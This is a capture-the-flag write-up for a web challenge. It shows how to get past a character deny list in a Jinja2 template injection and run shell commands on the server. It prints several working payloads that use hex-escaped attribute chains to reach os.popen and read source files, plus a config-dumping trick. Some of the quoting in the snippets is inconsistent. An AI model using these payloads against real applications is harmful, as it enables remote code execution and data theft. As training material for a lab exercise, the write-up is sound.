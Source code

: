 #+TITLE: Advent of CTF - Challenge 17
#+SUBTITLE: "Gatekeeper"

* Challenge

This challenge is the same as [[../challenge-16/index.org][Challenge 16]], but now the input is heavily filtered.

What you will learn:

- Bypassing filters

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-17/index_att
:END:

#+CAPTION: The start of the challenge
[[file:index_att/start.png]]

Attempting to use the same payloads as before will result in an error message saying that the entered emoji is on a deny list.

#+CAPTION: Denied
[[file:index_att/denied.png]]

Apparently there is some form of character checking happening. Running through various combinations will lead to a list of =._"= and the word =config=.

In fact, in the challenge code this is implemented as following:

#+CAPTION: The not allowed characters
#+begin_src python
if ".' in p or '_' in p or "'" in p or 'config' in p:
#+end_src

The cheat sheet on [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass][Payload All The Things]] has a great reference on bypassing filters. Following this guide will get you most of the way. The final payload that is suggested is:

#+CAPTION: Payload all the things payload
#+begin_src javascript
{{request|attr("application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')
('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('id')|attr('read')()}}
#+end_src

But obviously there are illegal characters in it. The ="= can be replaced with ="= however and this payload will work.

#+CAPTION: Adjusted payload for allowed characters
#+begin_src javascript
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")
  ("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|
  attr("popen")("id")|attr("read")()}}
#+end_src

#+CAPTION: Bypassing the deny list
[[file:index_att/ssti-bypass-id.png]]

From here the challenge is the same as the previous one.

#+CAPTION: Payload to get the sources
#+begin_src javascript
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")
  ("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|
  attr("popen")("cat app**")|attr("read")()}}
#+end_src

The source does not contain the flag however, this needs to be taken from the =config= variable again. Searching the internet will yield several ways of accessing the config dictionary. Below is one.

#+CAPTION: A bypass for config
#+begin_src javascript
{{self|attr("\x5f\x5fdict\x5f\x5f")}}
#+end_src

In the source code the magic function is just a little bit different from the last one, but the proces is the same; extract from the source and run in a python shell.

#+CAPTION: The magic function
#+begin_src python
def magic(flag, key): 
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))
 
flag="C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"
magic(flag, "46e505c983433b7c8eefb953d3ffcd196a08bbf9")
#+end_src

Go and get the badge as well.

[[./index_att/badge.png]]


Go back to the [[../../../index.org][homepage]].
